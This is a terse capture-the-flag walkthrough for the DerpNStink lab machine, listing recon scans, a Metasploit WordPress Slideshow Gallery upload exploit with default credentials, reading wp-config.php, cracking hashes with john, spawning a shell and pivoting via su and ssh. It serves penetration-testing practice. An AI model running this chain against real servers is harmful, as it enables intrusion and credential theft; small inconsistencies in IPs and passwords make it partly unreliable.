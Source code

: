 <h2><b>derpnstink walk through</b></h2>

`ip a` or `ifconfig` to know the address and network
of the machine.

`netdiscover -r 192.168.0.0/24`

> 192.168.0.27

nmap -sT -AT4 192.168.0.27

searchsploit OpenSSH 6.6.1p1

ssh root@192.168.0.27

now look at http://192.168.0.27

now move to

192.168.0.27/robots.txt

gospider -s http://192.168.0.27
dirb http://192.168.0.27

echo "192.168.0.27 derpnstink.local" >> /etc/hosts


wpscan -u http://192.168.0.27/weblog -enumerate at -enumerate ap -enumerate u 


search slideshow Gallery

use exploit/unix/webapp/wp_slideshowgallery_upload

show options

set RHOST 192.168.0.27
set targeturi /weblog
set wp_user admin
set wp_password admin
exploit

sysinfo
cd /var/www/html/weblog

cat wp-config.php

// find login name and hashes and login 
// to 192.168.0.27/php/phpmyadmin


john hashs.txt --wordlist=/usr/share/wordlists/rockyou.txt


>unclestinky
>wedgie57

python -c 'import pty; pty.spawn("/bin/bash")'

su stinky
>wedigie57

ssh -i stinky.key stinky@192.168.0.26




